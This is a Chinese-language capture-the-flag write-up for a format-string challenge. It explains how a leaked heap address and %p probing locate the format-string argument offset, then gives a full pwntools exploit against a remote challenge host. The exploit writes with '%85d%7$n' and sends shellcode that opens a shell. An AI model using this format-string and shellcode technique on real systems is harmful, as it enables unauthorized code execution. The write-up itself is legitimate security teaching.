 在主函数中，使用了malloc()来申请内存，它返回内存位置的首地址，所以这两个秘密就是来告诉我们v3的地址。

利用prinf()格式化字符串漏洞改写v3[0]的值，利用read写入shellcode。

我们在v2的时候写入v3的地址，利用%p%p%p%p%p%p%p%p%p%p确定其在格式化字符串的参数位置。

```shell
aaaa0x7ffff7faf7e30x7ffff7fb08c00x7ffff7edd5040x7ffff7fb5540(nil)0x1000000000x938640x70257025616161610x70257025702570250x7025702570257025
```

nil代表无值，也占用一个%p，从图中可以看出v2（0x938640）是格式化字符串的第7个参数。

## EXP

```python
from pwn import *
#from ctypes import *
from LibcSearcher import LibcSearcher
context.log_level="DEBUG"
context.arch="amd64"
#p=process('./string')
p=remote('220.249.52.133',50201)

#接收给我们的v3地址，以16进制解析并将其转换整数
p.recvuntil("secret[0] is")
v4_addr=int(p.recvuntil("\n")[:-1],16)
p.sendlineafter("name be:",'1234')

p.sendlineafter("east or up?:",'east')

p.sendlineafter("leave(0)?:",'1')

p.sendlineafter("address'\n",str(v4_addr))

payload1='%85d'+'%7$n'
p.sendlineafter("wish is:",payload1)

payload=asm(shellcraft.sh())
p.sendlineafter("SPELL",payload)

p.interactive()
```

## 总结

```c
((void (_fastcall *)(_QWORD,void *))v1)(0ll,v1);
//这里是将v1转换为一个字长的指针，并使用fastcall调用。
```

**函数调用约定**

具体请参考：[[C语言函数调用栈(二)](https://www.cnblogs.com/clover-toeic/p/3756668.html)]
